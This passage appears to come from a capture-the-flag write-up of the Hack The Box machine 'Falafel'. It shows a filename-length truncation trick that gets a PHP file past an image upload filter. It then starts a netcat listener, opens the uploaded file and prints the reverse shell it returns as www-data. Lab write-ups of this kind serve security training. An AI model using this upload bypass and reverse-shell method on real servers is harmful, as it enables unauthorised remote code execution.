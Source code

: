 
I copied and pasted its new, shortened name, and counted the characters.

```

echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" |wc -c
237

```

So the name and extension must match 237 characters, with `.png` exceeding the limit.


I got a listener started:
```
nc -nlvp 6969
```

The file was uploaded successfully

![success](/assets/img/falafel/fl-exploit-success.png)


I could browse to activate it on:
```
http://10.10.10.73//uploads/0318-1811_418f124e5b3efb02/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```

```

listening on [any] 6969 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.73] 46442
Linux falafel 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 18:11:46 up 17:02,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      01:09   17:02m  0.05s  0.04s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
